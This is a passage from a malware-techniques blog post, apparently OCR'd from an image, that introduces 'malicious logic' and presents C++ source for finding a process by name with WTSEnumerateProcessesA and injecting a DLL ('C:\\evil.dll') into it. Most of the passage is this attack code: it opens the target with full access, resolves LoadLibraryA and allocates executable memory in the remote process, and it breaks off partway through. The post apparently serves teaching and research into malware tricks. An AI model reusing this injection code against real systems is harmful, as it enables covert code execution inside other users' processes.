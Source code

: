 Let's go to another example with malicious logic. Find process ID by name and inject DLL to it.      

Source code is similar to my [post](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) or [this one](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html). The only difference is the logic of the `findMyProc` function (`hack2.c`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);
```